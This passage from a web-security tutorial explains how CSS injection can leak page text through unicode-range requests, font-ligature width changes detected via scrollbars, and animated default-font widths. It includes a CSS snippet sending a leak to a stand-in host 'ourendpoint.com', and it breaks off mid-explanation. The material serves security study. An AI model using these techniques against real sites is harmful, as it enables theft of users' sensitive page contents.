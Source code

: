 When you access this page, Chrome and Firefox fetch "?A" and "?B" because text node of sensitive-information contains "A" and "B" characters. But Chrome and Firefox do not fetch "?C" because it does not contain "C". This means that we have been able to read "A" and "B".

### Text node exfiltration (I): ligatures <a href="#text-node-exfiltration-i-ligatures" id="text-node-exfiltration-i-ligatures"></a>

**Reference:** [Wykradanie danych w świetnym stylu – czyli jak wykorzystać CSS-y do ataków na webaplikację](https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/)

We can extract the text contained in a node with a technique that combines **font ligatures** and the **detection of width changes**. The main idea behind this technique is the creation of fonts that contains a predefined ligature with **high size** and the usage of **size changes as oracle**.

The fonts can be created as SVG fonts and then converted to woff with fontforge. In SVG we can define the width of a glyph via **horiz-adv-x** attribute, so we can build something like `<glyph unicode="XY" horiz-adv-x="8000" d="M1 0z"/>`, being **XY a sequence of two chars**. **If the sequence exists, it will be rendered and the size of the text will change**. But… how can we detect these changes?

When the attribute white-space is defined as **nowrap** it forces the text to do not break when it exceeds the parent’s width. In this situation, an **horizontal scrollbar will appear**. And we can **define the style of that scrollbar**, so we can leak when this happens **:)**

```css
body { white-space: nowrap }; 
body::-webkit-scrollbar { background: blue; }
body::-webkit-scrollbar:horizontal { background: url(http://ourendpoint.com/?leak); }
```

At this point the attack is clear:

1. Create **fonts** for the combination of **two chars with huge width**
2. Detect the **leak via the scrollbar trick**
3. Using the first ligature leaked as base, create **new combinations of 3 chars** (adding before / after chars)
4. **Detect** the **3-chars ligature**.
5. Repeat until **leaking the whole text**

We still needing an improved method to start the iteration because `<meta refresh=...` is suboptimal. You could use the **CSS @import trick to optimize the exploit**.

### Text node exfiltration (II): leaking the charset with a default font <a href="#text-node-exfiltration-ii-leaking-the-charset-with-a-default-font" id="text-node-exfiltration-ii-leaking-the-charset-with-a-default-font"></a>

**Reference:** [PoC using Comic Sans by @Cgvwzq & @Terjanq](https://demo.vwzq.net/css2.html)

This trick was released in this [**Slackers thread**](https://www.reddit.com/r/Slackers/comments/dzrx2s/what\_can\_we\_do\_with\_single\_css\_injection/). The charset used in a text node can be leaked **using the default fonts** installed in the browser: no external -or custom- fonts are needed.

The key is to use an animation to **grow the div width from 0 to the end of the text**, the size of a char each time. Doing this we can “split” the text in two parts: a “prefix” (the first line) and a “suffix”, so every time the div increases its width a new char moves from the “suffix” to the “prefix”. Something like:

